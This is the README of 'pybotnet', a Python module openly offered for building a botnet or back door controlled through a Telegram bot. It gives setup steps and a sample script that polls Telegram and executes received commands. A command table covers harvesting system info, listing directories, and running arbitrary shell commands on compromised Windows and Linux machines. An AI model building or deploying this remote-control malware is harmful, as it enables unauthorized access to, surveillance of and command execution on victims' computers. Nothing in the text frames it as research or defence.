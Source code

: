 # pybotnet  0.11

A module for building botnet or back door with Python and Telegram control panel
- [x] windows
- [x] linux
- [ ] mac :Not tested

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)

 


### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)
```
pip install -r requirements.txt
```

### Sample:

```python
from pybotnet import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 20

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
*Send this COMMANDs to your api bot in telegram, using the admin account.* \
*If you want the command to run only on one system, write the MAC address of that system first:* \
 `66619484755211 get_info`

COMMAND | Sample | DO THIS | Minimum version required | Works well on: |
--------|--------|---------|--------------------------|----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep \<scconds> \<message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd \<system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in wiindows or `ping google.com` in linux)| 0.07 | windows, linux|
`ls \<route>` | `ls C:\ , ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
